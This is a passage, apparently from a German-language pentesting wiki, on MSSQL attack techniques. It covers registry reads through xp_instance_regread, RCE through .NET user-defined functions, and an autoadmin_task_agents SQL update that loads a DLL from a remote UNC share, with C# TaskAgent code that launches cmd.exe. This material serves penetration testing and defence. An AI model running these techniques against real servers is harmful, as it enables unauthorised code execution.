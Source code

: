 ```sql
EXECUTE master.sys.xp_instance_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue';
# Example to check who can use these functions
Use master;
EXEC sp_helprotect 'xp_regread';
EXEC sp_helprotect 'xp_regwrite';
```
Für **weitere Beispiele** siehe die [**ursprüngliche Quelle**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/).

### RCE mit MSSQL Benutzerdefinierter Funktion - SQLHttp <a href="#mssql-user-defined-function-sqlhttp" id="mssql-user-defined-function-sqlhttp"></a>

Es ist möglich, eine **.NET dll innerhalb von MSSQL mit benutzerdefinierten Funktionen zu laden**. Dies erfordert jedoch **`dbo`-Zugriff**, sodass Sie eine Verbindung zur Datenbank **als `sa` oder mit einer Administratorrolle** benötigen.

[**Folgen Sie diesem Link**](../../pentesting-web/sql-injection/mssql-injection.md#mssql-user-defined-function-sqlhttp), um ein Beispiel zu sehen.

### RCE mit `autoadmin_task_agents`

Laut [**diesem Beitrag**](https://exploit7-tr.translate.goog/posts/sqlserver/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp) ist es auch möglich, eine entfernte dll zu laden und MSSQL dazu zu bringen, sie mit etwas wie auszuführen:

{% code overflow="wrap" %}
```sql
update autoadmin_task_agents set task_assembly_name = "class.dll", task_assembly_path="\\remote-server\\ping.dll",className="Class1.Class1";
```
{% endcode %}

Mit:
```csharp
using Microsoft.SqlServer.SmartAdmin;
using System;
using System.Diagnostics;

namespace Class1
{
public class Class1 : TaskAgent
{
public Class1()
{

Process process = new Process();
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c ping localhost -t";
process.StartInfo.UseShellExecute = false;
process.StartInfo.RedirectStandardOutput = true;
process.Start();
process.WaitForExit();
}

public override void DoWork()
{

}

public override void ExternalJob(string command, LogBaseService jobLogger)
{

}
```